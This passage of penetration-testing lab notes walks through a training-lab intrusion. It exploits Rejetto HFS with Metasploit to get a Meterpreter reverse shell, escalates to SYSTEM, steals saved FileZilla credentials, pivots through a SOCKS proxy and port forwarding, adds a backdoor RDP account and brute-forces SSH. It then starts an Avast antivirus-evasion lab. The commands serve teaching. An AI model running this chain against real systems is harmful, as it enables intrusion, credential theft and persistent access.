80/tcp    open  http               HttpFileServer httpd 2.3 ←
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1025/tcp  open  msrpc              Microsoft Windows RPC
1026/tcp  open  msrpc              Microsoft Windows RPC
1027/tcp  open  msrpc              Microsoft Windows RPC
1028/tcp  open  msrpc              Microsoft Windows RPC
1033/tcp  open  msrpc              Microsoft Windows RPC
1034/tcp  open  msrpc              Microsoft Windows RPC
1053/tcp  open  msrpc              Microsoft Windows RPC
3389/tcp  open  ssl/ms-wbt-server? ←
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 87.19 seconds
```

`curl http://demo.ine.local/`:
```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN">
<html>
<head>
        <meta http-equiv="content-type" content="text/html; charset=UTF-8">
        <title>HFS /</title>
        <link rel="stylesheet" href="/?mode=section&id=style.css" type="text/css">
        <script type="text/javascript" src="//ajax.googleapis.com/ajax/libs/jquery/1.4.4/jquery.js"></script>
    <script> if (typeof jQuery == "undefined") document.write('<script type="text/javascript" src="/?mode=jquery"></'+'script>'); </script>
        <link rel="shortcut icon" href="/favicon.ico">
        <style class='trash-me'>
        .onlyscript, button[onclick] { display:none; }
        </style>
    <script>
    // this object will store some %symbols% in the javascript space, so that libs can read them
    HFS = { folder:'/', number:0, paged:1 }; 
    </script>
        <script type="text/javascript" src="/?mode=section&id=lib.js"></script>
</head>
<body>
<!-- -->
<div id='panel'>

[...]

                <button id='archiveBtn' onclick='if (confirm("Are you sure?")) submit({}, "/?mode=archive&recursive")'>Archive</button>
                <a href="/?tpl=list&folders-filter=\&recursive">Get list</a>
                </center>
        </fieldset>

        <fieldset id='serverinfo'>
                <legend> Server information</legend>
                <a href="http://www.rejetto.com/hfs/">HttpFileServer 2.3</a> ←
                <br />Server time: 8/31/2024 4:45:28 PM
                <br />Server uptime: 00:06:34
        </fieldset>


</div>

<div id='files_outer'>
        <div style='height:1.6em;'></div>  
         <div style='font-size:200%; padding:1em;'>No files in this folder</div> 
</div>

</body>
</html>
<!-- Build-time: 0.016 -->
```

`curl -I http://demo.ine.local/`:
```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 3832
Accept-Ranges: bytes
Server: HFS 2.3
Set-Cookie: HFS_SID=0.7527251674328; path=/; ←
Cache-Control: no-cache, no-store, must-revalidate, max-age=-1
```

`searchsploit hfs rejetto`:
```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)                                              | windows/remote/34926.rb ←
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities                                                   | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                      | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                 | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                 | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                            | windows/webapps/34852.txt
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`msfconsole -q`

`search hfs`, `use exploit/windows/http/rejetto_hfs_exec`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `set LHOST 10.10.42.3`, `set LPORT 4444`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.42.3:4444 ←
[*] Using URL: http://0.0.0.0:8080/5QeAYJieM
[*] Local IP: http://10.10.42.3:8080/5QeAYJieM
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /5QeAYJieM
[*] Sending stage (200262 bytes) to 10.4.29.136
[*] Meterpreter session 1 opened (10.10.42.3:4444 -> 10.4.29.136:1185 ) at 2024-08-31 22:24:27 +0530 ←
```

`sessions`, `sessions -i 1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator ←
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)). ←
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
```

`ipconfig`:
```
Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff


Interface 13
============
Name         : Amazon Elastic Network Adapter
Hardware MAC : 0e:8f:30:bd:94:a5
MTU          : 1500
IPv4 Address : 10.4.29.136 ←
IPv4 Netmask : 255.255.240.0
IPv6 Address : fe80::11d3:999f:a55c:9c39
IPv6 Netmask : ffff:ffff:ffff:ffff::


Interface 33
============
Name         : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::5efe:a04:1d88
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

`shell`

`ping -n 3 10.4.22.250`:
```
Pinging 10.4.22.250 with 32 bytes of data:
Reply from 10.4.22.250: bytes=32 time<1ms TTL=128
Reply from 10.4.22.250: bytes=32 time<1ms TTL=128
Reply from 10.4.22.250: bytes=32 time<1ms TTL=128

Ping statistics for 10.4.22.250:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
```

`exit`

`run autoroute -s 10.4.29.0/20`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.4.29.0/255.255.240.0...
[+] Added route to 10.4.29.0/255.255.240.0 via 10.4.29.136 ←
[*] Use the -p option to list all active routes
```

`run autoroute -p`:
```
[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.4.29.0          255.255.240.0      Session 6 ←
```

`background`

`search enum_applications`, `use post/windows/gather/enum_applications`, `show options`, `set SESSION 1`, `run`:
```
[*] Enumerating applications installed on ATTACKDEFENSE

Installed Applications
======================

 Name                                                                Version
 ----                                                                -------
 AWS PV Drivers                                                      8.4.0
 AWS Tools for Windows                                               3.15.1494
 Amazon SSM Agent                                                    3.1.338.0
 Amazon SSM Agent                                                    3.1.338.0
 EC2ConfigService                                                    4.9.4508.0
 EC2ConfigService                                                    4.9.4508.0
 EC2ConfigService                                                    4.9.4508.0
 FileZilla Client 3.57.0                                             3.57.0 ←
 Google Chrome                                                       96.0.4664.110
 Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.28.29913  14.28.29913.0
 Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.29.30040  14.29.30040.0
 Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29913      14.28.29913
 Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29913         14.28.29913
 Microsoft Visual C++ 2019 X86 Additional Runtime - 14.29.30040      14.29.30040
 Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.29.30040         14.29.30040
 Nmap 7.92                                                           7.92
 Npcap                                                               1.50
 Python 3.10.1 Add to Path (64-bit)                                  3.10.1150.0
 Python 3.10.1 Core Interpreter (64-bit debug)                       3.10.1150.0
 Python 3.10.1 Core Interpreter (64-bit symbols)                     3.10.1150.0
 Python 3.10.1 Core Interpreter (64-bit)                             3.10.1150.0
 Python 3.10.1 Development Libraries (64-bit debug)                  3.10.1150.0
 Python 3.10.1 Development Libraries (64-bit)                        3.10.1150.0
 Python 3.10.1 Documentation (64-bit)                                3.10.1150.0
 Python 3.10.1 Executables (64-bit debug)                            3.10.1150.0
 Python 3.10.1 Executables (64-bit symbols)                          3.10.1150.0
 Python 3.10.1 Executables (64-bit)                                  3.10.1150.0
 Python 3.10.1 Standard Library (64-bit debug)                       3.10.1150.0
 Python 3.10.1 Standard Library (64-bit symbols)                     3.10.1150.0
 Python 3.10.1 Standard Library (64-bit)                             3.10.1150.0
 Python 3.10.1 Tcl/Tk Support (64-bit debug)                         3.10.1150.0
 Python 3.10.1 Tcl/Tk Support (64-bit symbols)                       3.10.1150.0
 Python 3.10.1 Tcl/Tk Support (64-bit)                               3.10.1150.0
 Python 3.10.1 Test Suite (64-bit debug)                             3.10.1150.0
 Python 3.10.1 Test Suite (64-bit symbols)                           3.10.1150.0
 Python 3.10.1 Test Suite (64-bit)                                   3.10.1150.0
 Python 3.10.1 Utility Scripts (64-bit)                              3.10.1150.0
 Python 3.10.1 pip Bootstrap (64-bit)                                3.10.1150.0
 Python Launcher                                                     3.10.7644.0
 aws-cfn-bootstrap                                                   2.0.6
 aws-cfn-bootstrap                                                   2.0.6


[+] Results stored in: /root/.msf4/loot/20240831223323_default_10.4.29.136_host.application_776464.txt
[*] Post module execution completed
```

`search filezilla`, `use post/multi/gather/filezilla_client_cred`, `show options`, `set SESSION 1`, `run`:
```
[*] Checking for Filezilla directory in: C:\Users\Administrator\AppData\Roaming
[*] Found C:\Users\Administrator\AppData\Roaming\FileZilla
[*] Reading sitemanager.xml and recentservers.xml files from C:\Users\Administrator\AppData\Roaming\FileZilla
[*] Parsing sitemanager.xml ←
[*]     Collected the following credentials:
[*]     Server: 10.4.22.250:21 ←
[*]     Protocol: FTP ←
[*]     Username: admin ←
[*]     Password: FTPStrongPwd ←

[*] Parsing recentservers.xml
[*]     Collected the following credentials:
[*]     Server: 10.4.22.250:21
[*]     Protocol: FTP
[*]     Username: admin
[*]     Password: FTPStrongPwd

[*] Post module execution completed
```

`locate proxychains`:
```
/etc/proxychains4.conf ←
/etc/alternatives/proxychains
/etc/alternatives/proxychains.1.gz
/usr/bin/proxychains
/usr/bin/proxychains4

[...]
```

`cat /etc/proxychains4.conf`:
```
[...]

# ProxyList format
#       type  ip  port [user pass]
#       (values separated by 'tab' or 'blank')
#
#       only numeric ipv4 addresses are valid
#
#
#        Examples:
#
#               socks5  192.168.67.78   1080    lamer   secret
#               http    192.168.89.3    8080    justu   hidden
#               socks4  192.168.1.49    1080
#               http    192.168.39.93   8080
#
#
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050 ←
```

`search socks`, `use auxiliary/server/socks_proxy`, `show options`, `set SRVPORT 9050`, `set VERSION 4a`, `run`:
```
[*] Auxiliary module running as background job 1.

[*] Starting the SOCKS proxy server ←
```

`netstat -antp | grep -e ":9050"`:
```
tcp        0      0 0.0.0.0:9050            0.0.0.0:*               LISTEN      503/ruby ←
```

`proxychains nmap -Pn -sT -sV -p- -T5 demo1.ine.local`:
```
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.15
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-31 22:38 IST
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.22.250:80 <--denied
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.22.250:22  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  10.4.22.250:21  ...  OK

[...]

Nmap scan report for demo1.ine.local (10.4.22.250)
Host is up (1.1s latency).
Not shown: 98 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp? ←
22/tcp open  ssh     OpenSSH for_Windows_7.7 (protocol 2.0) ←
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.92%I=7%D=8/31%Time=66D34E69%P=x86_64-pc-linux-gnu%r(NULL
SF:,4D,"220-FileZilla\x20Server\x201\.2\.0\r\n220\x20Please\x20visit\x20ht
SF:tps://filezilla-project\.org/\r\n")%r(GenericLines,4D,"220-FileZilla\x2
SF:0Server\x201\.2\.0\r\n220\x20Please\x20visit\x20https://filezilla-proje
SF:ct\.org/\r\n")%r(Help,17C,"220-FileZilla\x20Server\x201\.2\.0\r\n220\x2
SF:0Please\x20visit\x20https://filezilla-project\.org/\r\n214-The\x20follo
SF:wing\x20commands\x20are\x20recognized\.\r\n\x20NOP\x20\x20USER\x20TYPE\
SF:x20SYST\x20SIZE\x20RNTO\x20RNFR\x20RMD\x20\x20REST\x20QUIT\r\n\x20HELP\
SF:x20XMKD\x20MLST\x20MKD\x20\x20EPSV\x20XCWD\x20NOOP\x20AUTH\x20OPTS\x20D
SF:ELE\r\n\x20CWD\x20\x20CDUP\x20APPE\x20STOR\x20ALLO\x20RETR\x20PWD\x20\x
SF:20FEAT\x20CLNT\x20MFMT\r\n\x20MODE\x20XRMD\x20PROT\x20ADAT\x20ABOR\x20X
SF:PWD\x20MDTM\x20LIST\x20MLSD\x20PBSZ\r\n\x20NLST\x20EPRT\x20PASS\x20STRU
SF:\x20PASV\x20STAT\x20PORT\r\n214\x20Help\x20ok\.\r\n")%r(GetRequest,76,"
SF:220-FileZilla\x20Server\x201\.2\.0\r\n220\x20Please\x20visit\x20https:/
SF:/filezilla-project\.org/\r\n501\x20What\x20are\x20you\x20trying\x20to\x
SF:20do\?\x20Go\x20away\.\r\n")%r(HTTPOptions,61,"220-FileZilla\x20Server\
SF:x201\.2\.0\r\n220\x20Please\x20visit\x20https://filezilla-project\.org/
SF:\r\n500\x20Wrong\x20command\.\r\n")%r(RTSPRequest,61,"220-FileZilla\x20
SF:Server\x201\.2\.0\r\n220\x20Please\x20visit\x20https://filezilla-projec
SF:t\.org/\r\n500\x20Wrong\x20command\.\r\n")%r(RPCCheck,4D,"220-FileZilla
SF:\x20Server\x201\.2\.0\r\n220\x20Please\x20visit\x20https://filezilla-pr
SF:oject\.org/\r\n")%r(DNSVersionBindReqTCP,4D,"220-FileZilla\x20Server\x2
SF:01\.2\.0\r\n220\x20Please\x20visit\x20https://filezilla-project\.org/\r
SF:\n")%r(DNSStatusRequestTCP,4D,"220-FileZilla\x20Server\x201\.2\.0\r\n22
SF:0\x20Please\x20visit\x20https://filezilla-project\.org/\r\n")%r(SSLSess
SF:ionReq,4D,"220-FileZilla\x20Server\x201\.2\.0\r\n220\x20Please\x20visit
SF:\x20https://filezilla-project\.org/\r\n")%r(TerminalServerCookie,4D,"22
SF:0-FileZilla\x20Server\x201\.2\.0\r\n220\x20Please\x20visit\x20https://f
SF:ilezilla-project\.org/\r\n")%r(TLSSessionReq,4D,"220-FileZilla\x20Serve
SF:r\x201\.2\.0\r\n220\x20Please\x20visit\x20https://filezilla-project\.or
SF:g/\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.07 seconds
```

`sessions -i 1`

`shell`

`net user attacker Att@ck3r /add`:
```
The command completed successfully. ←
```

`net user`:
```
User accounts for \\

-------------------------------------------------------------------------------
Administrator            attacker ←                Guest                    
The command completed with one or more errors.
```

`net localgroup "Remote Desktop Users" attacker /add`:
```
The command completed successfully. ←
```

`net localgroup "Remote Desktop Users"`:
```
Alias name     Remote Desktop Users
Comment        Members in this group are granted the right to logon remotely

Members

-------------------------------------------------------------------------------
attacker ←
The command completed successfully.
```

`exit`

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

`xfreerdp /help`:
```
FreeRDP - A Free Remote Desktop Protocol Implementation
See www.freerdp.com for more information

Usage: xfreerdp [file] [options] [/v:<server>[:port]]

Syntax:
    /flag (enables flag)
    /option:<value> (specifies option with value)
    +toggle -toggle (enables or disables toggle, where '/' is a synonym of '+')

    /a:<addin>[,<options>]            Addin
    /action-script:<file-name>        Action script
    /admin                            Admin (or console) session

[...]

    /p:<password>                     Password ←

[...]

    /u:[[<domain>\]<user>|<user>[@<domain>]]

[...]

    /v:<server>[:port]                Server hostname ←
    /vc:<channel>[,<options>]         Static virtual channel
    /version                          Print version
    /video                            Video optimized remoting channel
    /vmconnect[:<vmid>]               Hyper-V console (use port 2179, disable
                                      negotiation)
    /w:<width>                        Width
    -wallpaper                        Disable wallpaper
    +window-drag                      Enable full window drag
    /window-position:<xpos>x<ypos>    window position
    /wm-class:<class-name>            Set the WM_CLASS hint for the window
                                      instance
    /workarea                         Use available work area

Examples:
    xfreerdp connection.rdp /p:Pwd123! /f
    xfreerdp /u:CONTOSO\JohnDoe /p:Pwd123! /v:rdp.contoso.com
    xfreerdp /u:JohnDoe /p:Pwd123! /w:1366 /h:768 /v:192.168.1.100:4489
    xfreerdp /u:JohnDoe /p:Pwd123! /vmconnect:C824F53E-95D2-46C6-9A18-23A5BB403532 /v:192.168.1.100

Clipboard Redirection: +clipboard

Drive Redirection: /drive:home,/home/user
Smartcard Redirection: /smartcard:<device>
Serial Port Redirection: /serial:<name>,<device>,[SerCx2|SerCx|Serial],[permissive]
Serial Port Redirection: /serial:COM1,/dev/ttyS0
Parallel Port Redirection: /parallel:<name>,<device>
Printer Redirection: /printer:<device>,<driver>
TCP redirection: /rdp2tcp:/usr/bin/rdp2tcp

Audio Output Redirection: /sound:sys:oss,dev:1,format:1
Audio Output Redirection: /sound:sys:alsa
Audio Input Redirection: /microphone:sys:oss,dev:1,format:1
Audio Input Redirection: /microphone:sys:alsa

Multimedia Redirection: /video
USB Device Redirection: /usb:id:054c:0268#4669:6e6b,addr:04:0c

For Gateways, the https_proxy environment variable is respected:
    export https_proxy=http://proxy.contoso.com:3128/
    xfreerdp /g:rdp.contoso.com ...

More documentation is coming, in the meantime consult source files
```

`xfreerdp /u:attacker /p:Att@ck3r /v:demo.ine.local`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`FileZilla` > `Host: 10.4.22.250`, `Username: admin`, `Password: FTPStrongPwd`, `Port: 21` > `Quickconnect`

`usernames.txt` (right-click) > `Download`

<span style="color: #e57373;">**Attacker machine**</span>.

`sessions -i 1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`cat 'C:\\Users\guest_1\usernames.txt'`:
```
administrator
sysadmin
student
```

`portfwd add -l 1234 -p 22 -r 10.4.22.250`:
```
[*] Local TCP relay created: :1234 <-> 10.4.22.250:22 ←
```

`portfwd list`:
```
Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      10.4.22.250:22  0.0.0.0:1234  Forward ←

1 total active port forwards.
```

`background`

<span style="color: #e57373;">**Attacker machine**</span>.

`netstat -antp | grep -e ":1234"`:
```
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      503/ruby ←
```

`vim ./demo1_users.txt`:
```
administrator
sysadmin
```

`hydra -L ./demo1_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt localhost ssh -s 1234`:
```
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-31 22:58:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 2018 login tries (l:2/p:1009), ~127 tries per task
[DATA] attacking ssh://localhost:1234/
[1234][ssh] host: localhost   login: administrator   password: password1
[1234][ssh] host: localhost   login: sysadmin   password: tinkerbell
1 of 1 target successfully completed, 2 valid passwords found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-31 22:59:03
```

`ssh administrator@localhost -p 1234`:
```
The authenticity of host '[localhost]:1234 ([127.0.0.1]:1234)' can't be established.
ED25519 key fingerprint is SHA256:t9/BQIr/f97tt0HUUDdP9pzIVejCajA+2+LvUDqorVM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes ←
Warning: Permanently added '[localhost]:1234' (ED25519) to the list of known hosts.
administrator@localhost's password: ←
Microsoft Windows [Version 6.3.9600]                                                                                            
(c) 2013 Microsoft Corporation. All rights reserved. 
```

`whoami`:
```
attackdefense\administrator ←
```

`where /r C:\\ "*flag*"`:
```
C:\FLAG1.txt ←
```

`type C:\\FLAG1.txt`:
```
a3dcb4d229de6fde0db5686dee47145d ←
```

---

## Antivirus Evasion

### Antivirus Evasion (with UPX and Veil-Framework) - Lab

#### Lab Environment

You will learn to bypass one of the popular antiviruses, namely [Avast](https://www.avast.com/).

In this lab environment, the user will get access to a Kali GUI instance.
A Windows 7 machine can be accessed using the tools installed on Kali at IP address `172.16.5.10`.

**Objective:** Bypass the latest version of Avast AV.

**Instructions**

Use the following credentials to connect to the Windows machine over RDP:
	- Username: "aline"
	- Password: "soccer".

The best tools for this lab are:
	- Veil Framework
	- UPX
	- rdesktop.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

`ifconfig`:
```
adlab0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.0.3  netmask 255.255.255.0  broadcast 192.168.0.255
        inet6 fe80::a00:27ff:fef9:76b6  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:f9:76:b6  txqueuelen 1000  (Ethernet)
        RX packets 408  bytes 30880 (30.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1059  bytes 1121151 (1.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.101  netmask 255.255.255.0  broadcast 172.16.5.255 ←
        inet6 fe80::a00:27ff:fed4:ee5d  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:d4:ee:5d  txqueuelen 1000  (Ethernet)
        RX packets 80  bytes 9433 (9.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13  bytes 1046 (1.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 856  bytes 15610865 (14.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 856  bytes 15610865 (14.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping -a -g 172.16.5.0/24 2> /dev/null`:
```
172.16.5.1
172.16.5.10 ←
172.16.5.101
```

`cat /etc/hosts`:
```
127.0.0.1       localhost
127.0.1.1       kali    Kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

`echo -e "\n172.16.5.10\ttarget-1" >> /etc/hosts`

`cat /etc/hosts`:
```
127.0.0.1       localhost
127.0.1.1       kali    Kali

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

172.16.5.10     target-1 ←
```

`nmap -Pn -sS -sV -p- -T4 target-1`:
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-21 19:12 EST
Nmap scan report for target-1 (172.16.5.10)
Host is up (0.00046s latency).
Not shown: 65523 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn ←
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP) ←
3389/tcp  open  ssl/ms-wbt-server? ←
5800/tcp  open  vnc-http           TightVNC (user: ie8win7; VNC TCP port: 5900)
5900/tcp  open  vnc                VNC (protocol 3.8)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 08:00:27:7F:4F:D8 (Oracle VirtualBox virtual NIC)
Service Info: Host: IE8WIN7; OS: Windows; CPE: cpe:/o:microsoft:windows ←

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.38 seconds
```

`rdesktop`:
```
rdesktop: A Remote Desktop Protocol client.
Version 1.9.0. Copyright (C) 1999-2016 Matthew Chapman et al.
See http://www.rdesktop.org/ for more information.

Usage: rdesktop [options] server[:port]
   -u: user name
   -d: domain
   -s: shell / seamless application to start remotely
   -c: working directory
   -p: password (- to prompt)
   -n: client hostname
   -k: keyboard layout on server (en-us, de, sv, etc.)
   -g: desktop geometry (WxH[@DPI][+X[+Y]])
   -i: enables smartcard authentication, password is used as pin
   -f: full-screen mode
   -b: force bitmap updates
   -L: local codepage
   -A: path to SeamlessRDP shell, this enables SeamlessRDP mode
   -V: tls version (1.0, 1.1, 1.2, defaults to negotiation)
   -B: use BackingStore of X-server (if available)
   -e: disable encryption (French TS)
   -E: disable encryption from client to server
   -m: do not send motion events
   -M: use local mouse cursor
   -C: use private colour map
   -D: hide window manager decorations
   -K: keep window manager key bindings
   -S: caption button size (single application mode)
   -T: window title
   -t: disable use of remote ctrl
   -N: enable numlock synchronization
   -X: embed into another window with a given id.
   -a: connection colour depth
   -z: enable rdp compression
   -x: RDP5 experience (m[odem 28.8], b[roadband], l[an] or hex nr.)
   -P: use persistent bitmap caching
   -r: enable specified device redirection (this flag can be repeated)
         '-r comport:COM1=/dev/ttyS0': enable serial redirection of /dev/ttyS0 to COM1
             or      COM1=/dev/ttyS0,COM2=/dev/ttyS1
         '-r disk:floppy=/mnt/floppy': enable redirection of /mnt/floppy to 'floppy' share
             or   'floppy=/mnt/floppy,cdrom=/mnt/cdrom'
         '-r clientname=<client name>': Set the client name displayed
             for redirected disks
         '-r lptport:LPT1=/dev/lp0': enable parallel redirection of /dev/lp0 to LPT1
             or      LPT1=/dev/lp0,LPT2=/dev/lp1
         '-r printer:mydeskjet': enable printer redirection
             or      mydeskjet="HP LaserJet IIIP" to enter server driver as well
         '-r sound:[local[:driver[:device]]|off|remote]': enable sound redirection
                     remote would leave sound on server
                     available drivers for 'local':
                     alsa:      ALSA output driver, default device: default
         '-r clipboard:[off|PRIMARYCLIPBOARD|CLIPBOARD]': enable clipboard
                      redirection.
                      'PRIMARYCLIPBOARD' looks at both PRIMARY and CLIPBOARD
                      when sending data to server.
                      'CLIPBOARD' looks at only CLIPBOARD.
         '-r scard[:"Scard Name"="Alias Name[;Vendor Name]"[,...]]
          example: -r scard:"eToken PRO 00 00"="AKS ifdh 0"
                   "eToken PRO 00 00" -> Device in GNU/Linux and UNIX environment
                   "AKS ifdh 0"       -> Device shown in Windows environment 
          example: -r scard:"eToken PRO 00 00"="AKS ifdh 0;AKS"
                   "eToken PRO 00 00" -> Device in GNU/Linux and UNIX environment
                   "AKS ifdh 0"       -> Device shown in Microsoft Windows environment 
                   "AKS"              -> Device vendor name                 
   -0: attach to console
   -4: use RDP version 4
   -5: use RDP version 5 (default)
   -o: name=value: Adds an additional option to rdesktop.
           sc-csp-name        Specifies the Crypto Service Provider name which
                              is used to authenticate the user by smartcard
           sc-container-name  Specifies the container name, this is usually the username
           sc-reader-name     Smartcard reader name to use
           sc-card-name       Specifies the card name of the smartcard to use
   -v: enable verbose logging
```

`rdesktop -u aline -p soccer target-1`

<span style="color: #64b5f6;">**Target (victim) machine**</span>.

`powershell.exe`

`whoami`:
```
ie8win7\aline ←
```

`pwd`:
```
Path
----
C:\Users\aline ←
```

`ping -n 3 172.15.6.101`:
```

Pinging 172.16.5.101 with 32 bytes of data:
Reply from 172.16.5.101: bytes=32 time<1ms TTL=64
Reply from 172.16.5.101: bytes=32 time=1ms TTL=64
Reply from 172.16.5.101: bytes=32 time<1ms TTL=64

Ping statistics for 172.16.5.101:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss), ←
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 1ms, Average = 0ms
```

`ps`:
```
Handles  NPM(K)    PM(K)      WS(K) VM(M)   CPU(s)     Id ProcessName
-------  ------    -----      ----- -----   ------     -- -----------
    463      16    39788      68912   274    13.41   2856 aswEngSrv
    755      14    15472      28740   111    41.89   3472 aswidsagent
    997      21    22424      37664   157    21.25   1448 aswToolsSvc
   5073      72    78196     121648   510    81.73   1384 AvastSvc ←
   1774      24    25128      15064   328    40.34   2584 AvastUI ←
